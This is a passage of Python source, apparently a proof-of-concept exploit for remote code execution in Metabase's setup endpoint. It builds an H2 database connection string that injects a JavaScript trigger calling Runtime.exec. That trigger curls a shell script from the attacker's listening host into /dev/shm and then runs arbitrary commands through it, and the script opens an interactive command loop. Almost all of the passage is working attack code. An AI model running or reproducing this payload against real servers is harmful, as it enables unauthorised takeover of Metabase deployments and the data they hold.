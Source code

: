 ```python
                }
                }
    timer = 0
    print(colored(f"[+] Starting http server on port {argument.sport}", "blue"))
    thread = threading.Thread(target=run, )
    thread.start()
    while timer != 120:
        test = requests.post(f"{argument.url}/api/setup/validate", json=payload)
        if success == True :
            print(colored("[+] Metabase version seems exploitable", "green"))
            break
        elif timer == 120:
            print(colored("[-] Service does not seem exploitable exiting ......", "red"))
            sys.exit(1)

    print(colored("[+] Exploiting the server", "red"))
    

    terminal = Termial()
    terminal.cmdloop()


def shell(command):
    global setup_token, payload2
    payload2 = {
        "token": setup_token,
        "details":
        {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules":
            {},
            "details":
            {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl {argument.lhost}:{argument.sport}/exploitable -o /dev/shm/exec.sh')\n$$--=x",
                "advanced-options": False,
                "ssl": True
                },
                "name": "an-sec-research-team",
                "engine": "h2"
                }
                }
    
    output = requests.post(f"{argument.url}/api/setup/validate", json=payload2)
    bind_thread = threading.Thread(target=bind_function, )
    bind_thread.start()
    #updating the payload
    payload2["details"]["details"]["db"] = f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash /dev/shm/exec.sh {command}')\n$$--=x"
    requests.post(f"{argument.url}/api/setup/validate", json=payload2)
    #print(output.text)


def bind_function():
    try:
```